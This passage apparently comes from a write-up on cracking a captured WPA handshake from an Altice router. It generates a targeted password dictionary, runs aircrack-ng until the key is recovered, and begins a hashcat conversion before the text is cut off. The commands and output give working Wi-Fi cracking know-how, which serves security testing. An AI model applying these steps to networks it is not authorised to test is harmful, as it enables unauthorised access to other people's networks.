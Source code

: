 My Rasbperry Pi crashed trying to upload the .cap (*data-01.cap*) file, so I had to copy the file from the SDCARD directly. It is not recommended to run a dictionary attack using the Pi anyways, so...

Let's generate the dictionary:

```
$ python generate_altice_dictionary.py 2DED passwords.txt
$ wc -l passwords.txt
1679616 passwords.txt
```

Cool, let's try with *aircrack-ng*:

```
$ aircrack-ng data-01.cap -w passwords.txt

[00:11:03] 1420180/1679610 keys tested (2813.99 k/s)

      Time left: 1 minute, 32 seconds                           84.55%

                           KEY FOUND! [ CF832DED ]


      Master Key     : 11 C6 60 D4 1F 20 99 A9 C7 71 F7 3C 96 8C D3 5C
                       4A 50 25 27 3B 16 C8 A2 98 95 1B 9D 4E 44 D5 65

      Transient Key  : 4B 18 E2 ED 5A 18 6C 4E 56 BA 72 83 C0 EE D7 DA
                       34 E2 49 05 8D 27 11 77 50 71 B6 F9 1B F8 BD CB
                       86 9C ED D3 05 AA DF 83 90 DF EC D4 94 76 6D 60
                       E2 F9 62 BD 9B 78 3E 30 49 A5 B8 6D 29 54 BA 00

      EAPOL HMAC     : BD 03 DA 13 18 85 F8 13 12 F5 5D 07 B8 A7 E3 86
```

Bingo! `CF832DED` is the KEY! It took almost 15 minutes to crack it, but it did it.

#### Bonus: Let's try with hashcat ####

We already found the key, but let's try with **hashcat**. Our first step is to convert the .cap file to .*hccapx*, so we'll need **hashcat-utils**:

```
$ git clone https://github.com/hashcat/hashcat-utils.git
Cloning into 'hashcat-utils'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 416 (delta 0), reused 1 (delta 0), pack-reused 413
Receiving objects: 100% (416/416), 126.03 KiB | 837.00 KiB/s, done.
Resolving deltas: 100% (262/262), done.

$ cd hashcat-utils/src
$ make
rm -f ../bin/*
rm -f *.bin *.exe
cc -Wall -W -pipe -O2 -std=gnu99  -o cap2hccapx.bin cap2hccapx.c
...
```
